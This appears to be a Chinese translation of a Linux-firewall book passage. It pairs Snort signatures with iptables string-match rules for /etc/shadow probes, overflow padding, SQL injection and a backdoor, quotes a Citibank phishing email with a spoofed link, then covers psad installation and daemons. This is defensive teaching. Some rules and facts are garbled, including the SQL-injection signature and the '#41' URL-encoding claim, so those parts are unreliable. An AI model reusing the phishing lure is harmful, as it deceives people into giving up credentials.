以下章节将阐述一些常见的应用层攻击。某些攻击可以通过 `iptables` 的字符串匹配（string match）扩展来检测，每个示例中都包含一个针对特定攻击的 `iptables` 规则。（这绝非利用应用程序的所有技术之完整列表。）

## Snort 签名

理解应用层攻击的最佳方式之一是浏览 Snort 签名集。虽然最近的 Snort 签名不再随 Snort 源代码一起分发，但 Bleeding Snort 项目会以 Snort 格式为最新的攻击生成签名（参见 http://www.bleedingsnort.com）。

## 注意

我们将在第 9 章详细讨论 Snort 签名，但这里我们先介绍 Snort 提供的应用层检查能力。将 `iptables` 规则与 Snort 签名相结合，是将 `iptables` 转化为真正的入侵检测能力的关键。

考虑以下 Snort 签名：

```
alert tcp $EXTERNAL_net any -> $HTTP_SERVERS $HTTP_PORTS (msg:"WEB-ATTACKS /etc/shadow access"; content:"/etc/shadow"; flow:to_server,established; nocase; classtype: web-application-activity; sid:1372; rev:5);
```

该签名用于检测当字符串 `/etc/shadow` 从 Web 客户端传输到 Web 服务器时的情况。Web 服务器（以及它执行的任何 CGI 脚本）极有可能以没有足够权限读取 `/etc/shadow` 文件的用户身份运行，但攻击者在尝试请求该文件之前并不一定知道这一点。Snort 寻找的是读取该文件的*尝试*。

为了在 FORWARD 链中，当在 80 端口的已建立 TCP 连接上看到 `/etc/shadow` 字符串时让 `iptables` 生成一条日志消息，你可以使用以下规则：

```
[iptablesfw]# iptables -I FORWARD 1 -p tcp --dport 80 -m state --state ESTABLISHED -m string --string "/etc/shadow" --algo bm -j LOG --log-prefix "ETC_SHADOW "
```

## 缓冲区溢出漏洞利用

*缓冲区溢出漏洞利用*（buffer overflow exploit）是一种利用应用程序源代码中编程错误的攻击，在这种错误中，缓冲区的容量不足以容纳复制到其中的数据量；因此，当相邻的内存位置被覆盖时，就使用了*溢出*（overflow）一词。对于基于栈的缓冲区溢出，成功的漏洞利用会覆盖函数返回地址（该地址在栈上），使其指向由攻击者提供的代码。这反过来允许攻击者从此控制进程的执行。另一类缓冲区溢出攻击适用于从堆动态分配的内存区域。

缓冲区溢出漏洞通常是通过不恰当地使用某些不自动实现边界检查的库函数而被引入到 C 或 C++ 应用程序中的。这类函数的示例包括`strcpy()`、`strcat()`、`sprintf()`、`gets()`和`scanf()`，以及通过`malloc()`和`calloc()`等函数对从堆分配的内存区域进行不当管理。

## 注意

在被广泛引用的论文 "Smashing the Stack for Fun and Profit"（作者 Aleph One，参见 http://insecure.org/stf/smashstack.html）中，你可以找到关于如何编写缓冲区溢出攻击的精彩描述。Jon Erickson 的《Hacking: The Art of Exploitation》（No Starch Press, 2007）是另一个关于开发缓冲区溢出漏洞利用技术信息的绝佳来源。

在基于网络的攻击背景下，没有通用方法可以检测缓冲区溢出尝试。然而，对于通过加密通道传输数据的应用程序，如果一次攻击用（例如）50 个未加密字符`a`填充缓冲区，那将是非常可疑的。（加密协议通常不会一遍又一遍地发送相同的字符。）

如果存在这样的攻击且在地下社区中共享，那么添加一条 `iptables` 规则来查找此类行为可能是值得的。例如，以下规则将用于 SSL 通信。注意这一串 A 字符：

```
[iptablesfw]# iptables -I FORWARD 1 -p tcp --dport 443 -m state --state ESTABLISHED -m string --string "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" -j LOG --log-prefix "SSL OVERFLOW"
```

由于漏洞利用代码可以将填充字符更改为任何其他字符，上述规则很容易通过对漏洞利用代码进行微小的修改而被绕过。然而，漏洞利用代码有时会被自动化蠕虫在不经修改的情况下使用，因此上述策略在某些情况下可能是有效的。

虽然 Snort 签名集包含许多针对溢出攻击的签名，但这些签名通常仅以不需要看到特定填充字节的方式检测攻击。有时，仅作为某些应用程序命令参数提供的数据大小就表明存在溢出攻击。例如，以下是针对 FTP 服务器中`chown`命令溢出的签名。它在 FTP 会话中寻找`chown`命令后至少 100 字节的数据。

```
alert tcp $EXTERNAL_NET any -> $HOME_NET 21 (msg:"FTP SITE CHOWN overflow attempt"; flow:to_server,established; content:"SITE"; nocase; content:"CHOWN"; content:"distance 0"; nocase; isdataat:100,relative; pcre:"/\S+SITE\s+CHOWN(\s+[^\s]{100})\s+smli/"; reference:bugtraq, 2129; reference:cve,2001-0065; classtype:attempted-admin; sid:1562; rev:1);
```

虽然 `iptables` 没有可用的正则表达式引擎（如果有，就可以直接在 `iptables` 规则中表达`pcre`条件），但我们可以为这个 Snort 签名创建一个良好的 `iptables` 近似实现。例如，下面的 `iptables` 规则搜索`site`和`chown`字符串，并使用长度匹配来搜索至少 140 字节的数据包。（因为长度匹配从网络层头部开始而不是从应用层开始，所以我们为 IP 头部预留 20 字节，为 TCP 头部预留 20 字节。）

```
[iptablesfw]# iptables -I FORWARD 1 -p tcp --dport 21 -m state --state ESTABLISHED -m string --string "SITE" --algo bm -m string --string "chown" --algo bm -m length --length 140 -j LOG --log-prefix "CHOWN OVERFLOW"
```

## SQL 注入攻击

SQL 注入攻击利用了应用程序中的一种情况，即用户输入在被包含在数据库查询中之前没有经过正确的验证或过滤。聪明的攻击者可以利用 SQL 语言的嵌套能力来构建一个新的查询，并可能修改或提取数据库中的信息。SQL 注入攻击的常见目标是通过 Web 服务器执行并与后端数据库交互的 CGI 应用程序。

例如，假设一个 CGI 应用程序使用 Web 客户端通过 CGI 脚本提供的用户名和密码，对数据库内的数据进行用户名和密码检查。如果用户名和密码没有经过适当的过滤，用于执行验证的查询可能会容易受到注入攻击。这种攻击可以改变查询，使其不仅检查相等性，而且还能用一个新查询来修改数据。攻击者可以用这种方式来设置一个密码

对于任意用户；甚至可能作为管理员级别的密码。

检测通用的 SQL 注入较为困难，但某些 Snort 规则在特定的攻击方案中表现得相当接近。例如，这里有一个 Bleeding Snort 签名，它可以检测攻击者是否试图通过在 ① 处提供一个闭合单引号以及在 ② 处提供两个`--`字符（每个字符后紧跟 NULL 字节）来截断 SQL 查询的一部分。这两个`--`字符将 SQL 查询的剩余部分注释掉，这可用于移除通过对其他字段进行额外连接（join）而对查询施加的限制。

该 Snort 规则可以相对简洁地转换为 `iptables`，包括通过使用`--hex-string`命令行参数来处理 NULL 字符：

```
alert tcp $EXTERNAL_NET any -> $SQL_SERVERS 1433 (msg: "BLEEDING-EDGE EXPLOIT MS-SQL SQL Injection closing string plus comment"; flow: to_server,established; content: "" |" |"00"| ; content:"" |"00"| ; reference:url,www.nextgenss.com/papers/more_advanced_sql_injection.pdf; reference:url,www.securitymap.net/sdm/docs/windows/mssql-checklist.html; classtype:attempted-user; sid: 2000483; rev:5);
```

```
[iptablesfw#] iptables -I FORWARD -p tcp --dport 1433 -m state --state ESTABLISHED -m string --hex-string "\x00" --algo bm -m string --hex-string "\x00\x00" --algo bm -j LOG --log-prefix "SQL INJECTION COMMENT "
```

上述 SQL Snort 签名及其对应的 `iptables` 规则中都有一个棘手的问题，即 Snort 或 `iptables` 都不遵循这两个内容字符串的顺序。如果一个已建立的 TCP 连接中的数据包包含这两个字符串但顺序相反（Snort 的十六进制表示法中以 NULL 为例），例如是 `--|00|--|00| foo bar --|00|` 而不是 `|00| foo bar --|00||00|`，那么 Snort 签名和 `iptables` 规则都会被触发。对于某些签名，如果合法数据有可能以相反的顺序模拟恶意数据，这可能会增加误报率。

## 注意

Snort 规则中的 Web 参考链接 http://www.nextgenss.com/papers/more_advanced_sql_injection.pdf 包含了关于 SQL 注入攻击的极佳信息。

## 灰质黑客 (Gray Matter Hacking)

如今互联网上一些最麻烦的攻击是那些通过用户使用的应用程序直接针对人员的攻击。这些攻击利用人们倾向于信任某些信息的特点，绕过了最优秀的加密算法和认证方案。例如，如果攻击者让一个人信任某些恶意软件、伪造密码或加密密钥的来源，攻击者甚至可以绕过最复杂的安全机制。有时，利用人性漏洞比在经过加固的系统、应用程序或加密方案中寻找漏洞要容易得多。

### 网络钓鱼 (Phishing)

网络钓鱼是一种攻击方式，用户被诱骗将在线账户（如银行账户）的认证凭据提供给不可信的来源。通常，这是通过向用户发送一封看起来很正式的电子邮件来实现的，要求他们访问其在线账户并出于安全考虑执行某些“紧急”任务，例如更改密码。（如果不是因为一次成功的网络钓鱼攻击会对用户造成破坏性影响，那么这里的讽刺意味几乎是幽默的。）邮件中提供了一个看起来合法但经过巧妙设计的 Web 链接，将用户引导至由攻击者控制并高度模仿真实网站的伪造网站。一旦被钓鱼的用户访问该网站并输入凭据，攻击者就会窃取其账户凭据。

例如，以下是我收到的一封钓鱼邮件的一部分，其伪造的发件地址为 support@citibank.com，主题为“Citibank Online Security Message”：

> when signing on to Citibank Online, you or somebody else have made several login attempts and reached your daily attempt limit. As an additional security measure your access to Online Banking has been limited. This Web security measure does not affect your access to phone banking or ATM banking. Please verify your information <a href="http://196.41.X.X/sys/" onMouseOver="window.status='https://www.citibank.com/us/cards/index.jsp';return true;" onMouseOut="window.status=''>here</a>, before trying to sign on again. You will be able to attempt signing on to Citibank Online within twenty-four hours after you verify your information. (You do not have to change your Password at this time.)

那些看似无害的措辞伪装成诚恳且乐于助人的态度（“多次登录尝试”以及“您此时无需更改密码...”），且 Web 链接经过精心设计。该链接包含一小段嵌入的 JavaScript，指令浏览器在用户将鼠标指针悬停在邮件正文中的“here”链接文本上时，显示一个指向 Citibank 网站的合法链接。然而，该链接的真实目的地是 URL http://196.41.X.X/sys，这是一个由攻击者控制的 Web 服务器。该服务器显示的网页与真实的 Citibank 网站上的合法页面完全相同。

幸运的是，`iptables` 可以通过以下规则在 Web 会话查看此特定钓鱼邮件时将其检测出来：

```
[iptablesfw]# iptables -I FORWARD 1 -p tcp --dport 25 -m state --state ESTABLISHED -m string --string "http://196.41.X.x/sys/" --algo bm -m string --hex-string "window.status=|27https://www.citibank.com" -j LOG --log-prefix "CITIBANK PHISH "
```

在 ① 和 ② 处，该规则在指向 SMTP 端口的已建立 TCP 连接中，对字符串 `"http://196.41.x.x/sys/"` 和 `"window.status='https://www.citibank.com"` 进行多字符串匹配。签名中的第一个字符串要求匹配攻击者设置的特定恶意 Web 服务器，因此该规则并不能通用地描述所有针对 Citibank 的可能钓鱼攻击。第二个字符串也很重要，因为它在寻找被用作 `window.status` JavaScript 窗口对象属性参数的 Citibank 网站。虽然真实的 Citibank 网站也可能出于合法目的使用此结构，但在电子邮件中同时出现这两个字符串是非常可疑的，且无论模式顺序如何，在 Snort 或 `iptables` 中触发误报的机会都很低。

你可以通过在有效检测和降低误报率之间取得平衡，来最大化新攻击签名对新攻击的有效性。实现这一点最好的方法之一是寻找在合法网络通信中不太可能出现模式。如果另一种针对新目标的钓鱼攻击变得流行，那么将其包含在签名中的良好候选模式是与恶意 Web 服务器关联的 IP 地址（尽管这总是可能被攻击者更改）以及任何通用的语言或代码特征（例如 Citibank 钓鱼示例中的 `window.status` 字符串）。

## 后门与击键记录 (Backdoors and Keystroke Logging)

*后门 (backdoor)* 是一个可执行文件，它包含向攻击者开放但不对合法用户开放的功能。例如，SdBot 木马[31]通过使用自定义 IRC 客户端连接到一个 IRC 频道来打开后门，攻击者在频道中等待发出命令，但后门的编码要求攻击者在采取任何行动前必须提供有效的密码。这为后门通信增加了一层身份验证，有助于确保只有成功入侵系统的攻击者才能控制它。

后门的目标是在远程机器上隐蔽地授予攻击者执行任何操作的能力，从收集揭露密码的击键记录到远程控制系统。一些后门甚至运行自己的以太网嗅探器，其编码旨在从 `telnet` 或 FTP 等明文协议中提取用户名和密码信息（虽然从其他系统嗅探此类信息在交换网络中关注较少，除非后门安装在充当网关或防火墙的设备上）。

FSsniffer 后门就是这样一个后门的例子。它可以使用以下 Snort 规则检测：


```text
alert tcp $HOME_NET any -> $EXTERNAL_NET any [msg:"BACKDOOR FSsniffer connection attempt"; flow:to_server,established; content:"RemoteNC Control Password|3A|"; reference: nessus,11854; classtype:trojan-activity; sid:221; rev:2;]
```

在①处，FSsniffer Snort 规则检查属于已建立 TCP 连接且目的地为连接服务器端的数据包，而在②处，Snort 规则旨在寻找能够唯一标识攻击者尝试通过 FsSniffer 后门进行身份验证的应用层内容。

将此 Snort 规则转换为 iptables 空间后，可得出以下 iptables 规则。（①处的 iptables `ESTABLISHED` 状态匹配要求确保了该规则仅匹配已建立的 TCP 连接中的数据包，而②处的 `--hex-string` 命令行参数确保了原始内容字段中的十六进制代码 `\x3A` 被正确翻译。）

```text
[iptablesfw]# iptables -I FORWARD -p tcp -m state --state ESTABLISHED -m string --hex-string "RemoteNC Control Password:\x3a" --algo bm -j LOG --log-ip-options --log-tcp-options --log-prefix "FSSNIFFER BACKDOOR "
```

> [29]³ Snort 社区将其签名称为“规则”（rules），但入侵检测社区也采用“签名”（signature）一词作为向入侵检测系统描述攻击的机制。在本书中，这两个术语可以互换使用——没有任何限制要求签名必须是单一的简单模式，因此将复杂的攻击描述称为签名同样有效。

> [30]⁴ 并非所有 Web 浏览器处理此问题的方式都相同；我曾看到 Microsoft IE 显示合法链接，而 Firefox 显示恶意链接（可能是因为我使用的 Firefox 版本没有解释以这种方式嵌入在链接标签中的 JavaScript）。实际情况可能会有所不同。

> [31]⁵ 欲了解更多信息，请参阅 <http://www.symantec.com/security_response/writeup.jsp?docid=2002-051312-3628-99&tabid=2>。

> [32]⁶ 诚然，有人可能会针对任意 TCP 服务器伪造 `RemoteNC Control Password:` 字符串，而不一定是尝试验证 FsSniffer 后门的身份，但无论如何，这种活动都是可疑的。

## 加密与应用编码

有两个因素使得检测应用层攻击变得困难：加密和应用编码方案。加密尤其棘手，因为它的设计目标是在没有加密密钥的情况下，使解密在计算上不可行，而通常 IDS、IPS 和防火墙设备无法访问这些密钥。[33]

然而，某些应用层漏洞利用并不需要加密才能成功。例如，针对 SSH 服务器的某些攻击存在 Snort 签名（这些签名必然在“明文”状态下运行）。当使用这些签名时，Snort 在没有 SSH 加密密钥的情况下查看负载数据。这些签名的存在告诉我们，仅靠加密并不是万能药，攻击者有时可以利用应用程序中的漏洞，使得通常所需的加密层毫无作用。也就是说，漏洞可能存在于可通过非加密手段访问的函数中。

编码技术对 IDS 来说也难以处理。例如，许多 Web 浏览器支持 gzip 编码以减少在网络上传输的数据量，因为使用快速 CPU 压缩或解压缩数据的速度通常比在慢速网络上传输未压缩数据要快。如果一次攻击与一些随机数据相结合并使用 gzip 压缩，IDS 必须在数据跨网络传输时对其进行解压缩才能检测到攻击。随机数据确保了每次压缩的攻击内容都不同；如果没有这种随机化，IDS 只需要查找压缩字符串本身即可识别攻击。在繁忙的网络中，实时解压缩每个 Web 会话在计算上是不切实际的，因为有大量下载大型非恶意压缩文件的 Web 会话。

### 注意

并非所有应用层编码对于 IDS 来说解码成本都很高。例如，Web 会话中的 URL 编码数据由 Snort HTTP 预处理器通过 Snort 签名语言中的 `uricontent` 关键字进行实时解码。这是因为 URL 编码是通过十六进制代码和百分号进行简单的替换操作完成的——例如，A 变为 `#41`，并可以用同样的方式轻松反转。这种编码方案并不耗费计算资源。

> [33]¹⁷ 一些 IDS 产品提供 SSL 密钥托管服务，以便在解开加密数据后检查加密的 Web 服务器通信。

## 应用层响应

从技术上讲，针对应用层攻击的纯应用层响应应该仅涉及存在于应用层的结构。例如，如果用户在滥用应用程序，则应简单地禁用其账户；或者如果攻击者尝试通过 Web 服务器执行的 CGI 应用程序进行 SQL 注入攻击，则应丢弃该查询并向客户端返回 HTTP 错误代码。这种响应不需要操纵存在于应用层之下的数据包标头信息。

然而，对于防火墙和网络入侵防御系统来说，严格的应用层响应是不切实际的，因为它们通常与应用程序本身没有紧密集成。[34] 此外，如果在 TCP 会话（需要双向通信）中发现来自特定 IP 地址的高度恶意攻击，无论如何，禁止来自该攻击者 IP 地址的所有后续通信可能会更有用。这就是针对应用层攻击的网络层响应。

在本书中，我们强调针对应用层攻击的网络层和传输层响应，而不是应用程序本身可以执行的响应。这些响应是通过 `iptables` 创建和管理针对攻击者 IP 地址的拦截规则（由 `psad` 项目管理）以及使用 `REJECT` 目标通过 `fwsnort` 拆除 TCP 连接来实现的。第 10 章和第 11 章将详细介绍此类响应。

> [34]⁸ 确实存在与应用程序紧密集成的安全机制（例如 Apache Web 服务器的 ModSecurity 模块），但防火墙和入侵检测系统无法看到这些机制的运行情况。

# 第 5 章 介绍 PSAD：端口扫描攻击检测器

在本章中，我将介绍*端口扫描攻击检测器*，简称为 `psad`。我们将涵盖安装、管理和配置问题，而将 `psad` 操作和自动响应的重头戏留在接下来的两章中。

## 历史

演变为 `psad` 的软件项目始于 1999 年秋季的 Bastille Linux，当时 Bastille 开发团队决定 Bastille 应该提供一个轻量级的网络入侵检测组件。当时，Peter Watkins 正在开发出色的防火墙脚本图表（至今仍捆绑在 Bastille 中），因此，基于防火墙日志提供的信息开发一个 IDS 工具是自然而然的下一步。此外，当时 PortSentry（参见 <http://sourceforge.net/projects/sentrytools>）存在一些架构设计问题，使其不适合与配置为“默认丢弃”（default-drop）模式的防火墙配合使用。[35]

虽然我们可以为 Snort（参见 <http://www.snort.org>）开发一个更强大的配置工具，但 Jay Beale、Peter Watkins 和我决定开发一个完全全新的工具，使其与 Linux 内核中的防火墙代码紧密耦合。结果创建了 Bastille 的一部分，称为 Bastille-NIDS，它可以分析 2.2 系列内核中的 ipchains 日志以及 2.4 和 2.6 系列内核中的 iptables 日志。

2001 年，我将 Bastille-NIDS 项目独立出来，使其可以在不需要安装 Bastille 的情况下独立运行，并将其命名为端口扫描攻击检测器（Port Scan Attack Detector）。`psad` 的开发周期非常活跃，平均每三四个月就会发布一个新版本。

> [35]¹ 请参阅 <http://www.cipherdyne.org/psad/faq.html#diff_portsentry> 了解关于 PortSentry 为何与限制性防火墙策略不兼容的更多信息。

## 为什么要分析防火墙日志？

良好的网络安全始于正确配置的防火墙，其权限应仅限于允许基础网络连通性和服务所绝对必需的范围。防火墙是内联设备，因此能够很好地对网络流量应用过滤逻辑。在计算机网络上下文中，*内联设备（inline device）*是指任何位于数据包通过网络路由直接路径上的硬件。如果内联设备内部出现硬件或软件故障并影响其转发网络流量的能力，网络通信将停止工作。内联设备的示例包括路由器、交换机、网桥、防火墙和网络入侵防御系统（IPS）。$^{36}$

随着防火墙的功能变得更加丰富和复杂，它们逐渐提供了传统上属于入侵检测系统职能的能力（例如应用层检查）。通过将这些特性与过滤流量的能力相结合，防火墙可以提供宝贵的入侵检测数据，从而提供一种有效的机制，既能保护服务免受直接入侵和复杂的侦察活动，又能限制蠕虫流量可能造成的损害。像 `iptables` 这样提供广泛日志记录和过滤能力的防火墙，可以提供不应被忽视的宝贵安全数据。

虽然像 Snort 这样专门的入侵检测系统提供了强大的功能集和全面的规则语言来描述网络攻击，但 `iptables` 始终内联于网络流量，并提供详细的数据包头日志（这些日志可以与应用层测试结合，我们将在第 9 章中看到）。防御在深（defense-in-depth）原则同样适用，因此，倾听 `iptables` 所讲述的“故事”是一个好主意。

> $^{36}$ $^{12}$ 虽然网络入侵检测系统（IDS）是由内联设备（如交换机）提供网络流量的，但如果 IDS 关闭，网络通信不会受到影响。这是因为 IDS 仅获得每个数据包的副本用于检查，而不需要将数据包转发到其预定目的地。

## psad 特性

在目前的版本中，`psad` 可以检测各种类型的可疑流量，例如由 Nmap 等工具（见 <http://www.insecure.org>）生成的端口扫描、针对各种后门程序的探测、分布式拒绝服务（DDoS）工具以及滥用网络协议的尝试。当与 `fwsnort` 结合使用时（见第 9 章、第 10 章和第 11 章），`psad` 可以检测并为超过 60% 的所有 Snort-2.3.3 规则生成警报，包括那些需要检查应用层数据的规则。

在 `psad` 较为有趣的特性中，包括它能够对发起扫描或其他恶意流量的远程操作系统进行被动指纹识别。例如，如果有人从 Windows 机器启动 `TCP connect()` 扫描，`psad` 通常可以分辨出该扫描是来自 Windows XP、2000 还是 NT 机器；在某些情况下，它甚至可以检测出远程系统的 Service Pack 版本。`psad` 使用的指纹源自 `p0f`。（有关 `p0f` 和被动 OS 指纹识别的讨论，请参阅第 7 章。）此外，`psad` 还提供详细的电子邮件和 syslog 警报、根据危险等级阈值自动封禁 IP 的能力（此功能默认禁用）、集成的 whois 支持、DShield 报告（见 <http://www.dshield.org>）等。

我们将在接下来的两章中涵盖所有这些特性，但现在，我们将专注于 `psad` 的安装和配置。

## psad 安装

在安装 `psad` 之前，您需要从 <http://www.cipherdyne.org/psad/download> 下载最新版本。所有在 <http://www.cipherdyne.org> 上发布的程序（包括 `psad`）在各自的源码树中都附带了一个安装程序 `install.pl`。下载 tar 包后，建议验证 MD5 校验和以及 GnuPG 签名。$^{37}$ 您可以在 <http://www.cipherdyne.org/public_key> 找到我的 GnuPG 公钥。以下是以 2.0.8 版本为例的操作步骤：

```bash
$ cd /usr/local/src
$ wget http://www.cipherdyne.org/psad/download/psad-2.0.8.tar.bz2
$ wget http://www.cipherdyne.org/psad/download/psad-2.0.8.tar.bz2.md5
$ wget http://www.cipherdyne.org/psad/download/psad-2.0.8.tar.bz2.asc
$ md5sum -c psad-2.0.8.tar.bz2.md5
psad-2.0.8.tar.bz2: OK
```

```text
$ gpg --verify psad-2.0.8.tar.bz2.asc
gpg: Signature made Sun Jul 29 13:18:58 2007 EDT using DSA key ID A742839F
gpg: Good signature from "Michael Rash <mrb@cipherdyne.com>"
gpg: aka "Michael Rash <mrb@cipherdyne.com>"
```

```bash
$ tar xfj psad-2.0.8.tar.bz2
$ su -
# Password:
# cd /usr/local/src/psad-2.0.8
# ./install.pl
```

`install.pl` 脚本会提示您输入几项信息，包括接收电子邮件警报的邮箱地址、系统当前运行的 syslog 守护进程类型（syslogd、syslog-ng 或 metalog）、是否仅让 `psad` 分析包含特定日志前缀的 iptables 日志消息，以及是否将日志数据发送到 DShield 分布式 IDS。您可以手动输入信息，也可以使用默认值（直接按 **Enter** 键），很快您就能拥有一个可运行的 `psad` 安装环境。

对于基于 Red Hat 包管理器的 Linux 发行版，您可以将 `psad` 安装为 RPM 包；对于 Debian 系统，可以安装为 Debian 包$^{38}$；对于 Gentoo 系统，可以从 Portage 树之外安装。如果您希望保持软件安装方式的一致性，使用这些安装方法对您的特定 Linux 系统可能更为合适。

### 注意

由于 `psad` 与 `iptables` 防火墙紧密绑定，因此尚未移植到 Linux 以外的操作系统。但是，如果您不打算使用 `psad` 的任何主动响应能力，您可以将其部署在运行不同操作系统的 syslog 服务器上，并接收来自独立 Linux 系统的 iptables 日志消息。

在 Linux 上成功安装 `psad` 后，将在本地文件系统中创建几个新文件和目录。

Perl 是开发 `psad` 主守护进程所使用的编程语言（稍后讨论的辅助守护进程 `kmsgsd` 和 `psadwatchd` 是用 C 编写的），并且使用了几个不包含在核心 Perl 模块集中的 Perl 模块。通过将所有此类 Perl 模块安装在 `/usr/lib/psad` 中，`psad` 可以将已安装在系统 Perl 库树（通常位于 `/usr/lib/perl5`）中的 Perl 模块与 `psad` 所需的模块严格区分开。

以下模块是必需的：

- `Date::Calc`
- `Net::Ipv4Addr`
- `Unix::Syslog`
- `IPTables::Parse`
- `IPTables::ChainMgr`

三个系统守护进程构成了 `psad`：`psad`、`kmsgsd` 和 `psadwatchd`。所有这些守护进程都安装在 `/usr/sbin` 中，并且每个进程都引用 `/etc/psad` 中的 `psad.conf` 文件。

`psad` 安装程序还会创建 `/etc/psad/archive` 目录，并将任何现有的 `psad` 守护进程配置文件复制到那里，这样如果您重新安装 `psad`，旧配置将被保留。`install.pl` 程序还可以将现有的 `psad` 配置值合并到新配置文件中，这有助于将升级带来的麻烦降至最低。

安装程序还会在 `/var` 中创建一些文件和目录：在 `/var/lib/psad/psadfifo` 创建一个命名管道$^{[39]}$，创建目录 `/var/log/psad` 以及文件 `/var/log/psad/fwdata`，最后，`install.pl` 脚本在 `/var/log/psad/install.log` 保留一份安装日志。当 `psad` 运行时，其主要运行目录（用于跟踪与可疑网络流量相关联的 IP 地址）是 `/var/log/psad`。

### 注意

`psad` 安装自身的目录并非随机选择——它们被放置在名为“文件系统层次结构标准（FHS）”的文档中定义的标准目录内。该文档规定了 Unix 文件系统目录结构中每个目录应该具备的用途。任何符合该文档的应用程序都能对 Linux 目录结构做出可预测的使用，从而在海量的目录和文件中维持一定的秩序。FHS 可以在 <http://www.pathname.com/fhs> 找到。

从安全角度来看，验证 GnuPG 签名更为重要，因为在没有我的私钥的情况下，在密码学上很难伪造签名；而任何能够修改 psad 压缩包的人，推测也能修改包含 MD5 校验和的文件。参考起见，我的公钥指纹为 53EA 13EA 472E 3771 894F AC69 95D8 5D6B A742 839F，您可以在将密钥导入 GnuPG 密钥环后验证此指纹。

Daniel Gubser 创建了 psad Debian 软件包，并将其发布在 <http://www.gutreu.ch/debian>。

*命名管道*（named pipe）是一类特殊的文件，允许两个进程进行通信。该机制类似于使用管道（`|`）字符将一个进程的 STDOUT 连接到另一个进程的 STDIN（例如，`cat /etc/hosts | grep localhost`），但命名管道持久地存在于文件系统中。

## psad 管理

安装好 `psad` 后，就可以启动它了。本节将概述 `psad` 的基础管理，并向您展示 `psad` 如何从 `iptables` 获取日志数据。攻击检测和被动 OS 指纹识别等运行时活动将在接下来的两章中讨论。

### 启动和停止 psad


psad 附带的初始化脚本适用于 Red Hat、Fedora、Slackware、Debian、Mandrake 和 Gentoo Linux 系统。与许多系统守护进程（如 syslog 和 Apache）一样，psad 通常应通过 init 脚本启动和停止：

```
# /etc/init.d/psad start
  Starting psad ...                [ ok ]
# /etc/init.d/psad stop
  Stopping psadwatchd ...         [ ok ]
  Stopping kmsgd ...              [ ok ]
  Stopping psad ...               [ ok ]
```

当通过 init 脚本启动`psad`时，还会启动三个守护进程：主`psad`守护进程、`kmsgsd`和`psadwatchd`。`kmsgsd`的目的是从`/var/lib/psad/psadififo`命名管道中读取所有 iptables 日志消息，并将它们写入一个单独的文件`/var/log/psad/fwdata`，以便`psad`进行实时分析。通过这种方式，`psad`获得的是一个仅包含 iptables 日志消息的纯净数据流。

## 注意

在安装时，`psad`会重新配置系统 syslog 守护进程，将所有优先级为 info（或 syslog 术语中的 kern.info 消息）的内核消息写入`/var/lib/psad/psadififo`命名管道。

`psadwatchd`守护进程简单地确保`psad`和`kmsgsd`守护进程都在运行，如果它们未运行则重启它们。如果`psadwatchd`必须重启其中任何一个守护进程，它会向`/etc/psad/psad.conf`文件中列出的电子邮件地址发送警告邮件。

### 守护进程的唯一性

当`psad`启动时，三个`psad`守护进程中的每一个都会将其进程 ID（PID）写入`/var/run/psad`目录下的文件中。如果任何守护进程是从命令行手动启动的，它首先会检查是否已有另一个实例在运行；如果是，新实例将立即退出。这确保了任何现有的`psad`进程不会受到干扰。

### iptables 策略配置

从根本上说，`psad`是一个日志分析器。它假设部署`psad`的系统上的 iptables 策略配置为“记录并丢弃”（log-and-drop）立场。这确保了 iptables 仅接收网络运行绝对必需的数据包；所有其他数据包都被记录并丢弃。端口扫描、后门程序探测、破坏性应用程序命令（我们将在第 9 章看到 iptables 可以过滤应用层数据）以及其他各种恶意行为都超出了可接受的网络流量范围，因此基于此类策略生成的 iptables 日志通常可以为专门的入侵检测系统策略提供有价值的补充。

`psad`提供了一种自动化机制，用于验证本地 iptables 策略在 INPUT 和 FORWARD 链中是否都配置了默认的 LOG 和 DROP 规则。该机制是一个位于`/usr/sbin/fwcheck_psad`的专用脚本，由`psad`在启动时执行（除非给出了`--no-fwcheck`命令行开关，或者`psad`运行在独立的 syslog 服务器上）。`fwcheck_psad`脚本使用`IPTables::Parse` Perl 模块来获取本地 iptables 策略的表示形式，并对其进行解析以检查是否包含 LOG 和 DROP 规则。如果没有，`psad`将发送配置警报邮件，通知您 iptables 策略未正确配置。

## 使用 `kill()` 进行进程监控

将 PID 写入磁盘的策略在系统守护进程中是标准做法，从 syslog 到 OpenSSH 都在使用。一旦文件系统中有了 PID 文件，就有一个优雅的方案可以让进程检查另一个进程实例是否已经在运行，而无需解析`ps`的输出或在`/proc`伪文件系统中翻找。该方案涉及`kill()`系统调用的返回值，但我们不向要检查的进程发送 SIGTERM、SIGHUP 或其他标准信号，而是发送 SIG_0。这会指示`kill()`在进程当前运行时（即进程表中有一项）返回零，或者在进程未运行或遇到错误条件时返回非零值。为了演示使用此方法检查本地系统上`psad`守护进程是否运行，我们可以使用以下命令：

```
# kill -0 `cat /var/run/psad/psad.pid`
# echo $?
0
```

由于返回值为零，我们知道`psad`当前正在系统上运行。

要查看`kill()`系统调用是如何实际使用及其返回值的，请使用`strace`工具。注意最后一行中的`= 0`是`kill()`的返回值。

```
# strace kill -0 `cat /var/run/psad/psad.pid` 2>&1 | grep kill
execve("/bin/kill", ["kill", "-0", "7940"], [/* 43 vars */]) = 0
kill(7940, SIG_0) = 0
```

最后，任何成熟的编程语言都提供了`kill()`系统调用的接口，这里我将演示如何使用 Perl 来检测`psad`当前是否在运行。（`kill()`系统调用的编程用法源自下方加粗的行。）

```perl
# cat pid.pl
#!/usr/bin/perl -w
open PIDFILE, "< /var/run/psad/psad.pid" or die $!;
while (<PIDFILE>) {
    if (/(\d+)/) {
        print "psad pid: $1 is running...\n" if kill(0, $1);
    }
}
close PIDFILE;
# ./pid.pl
psad pid: 7940 is running...
```

例如，如果当前没有实例化任何 iptables 规则，`fwcheck_psad`将生成如下电子邮件（系统主机名为 iptablesfw）：

> [-] 您可能只需要在 iptablesfw 的 INPUT 链中添加一条默认记录规则。
>
> 欲了解更多信息，请参阅 psad 源码目录中的 "FW_HELP" 文件或访问：
>
> http://www.cipherdynm.org/psad/fw_config.htm
>
> [-]
>
> 您可能只需要在 iptablesfw 的 FORWARD 链中添加一条默认记录规则
>
> 欲了解更多信息，请参阅 psad 源码目录中的 "FW_HELP" 文件或访问：
>
> http://www.cipherdynm.org/psad/fw_config.htm

## 注意

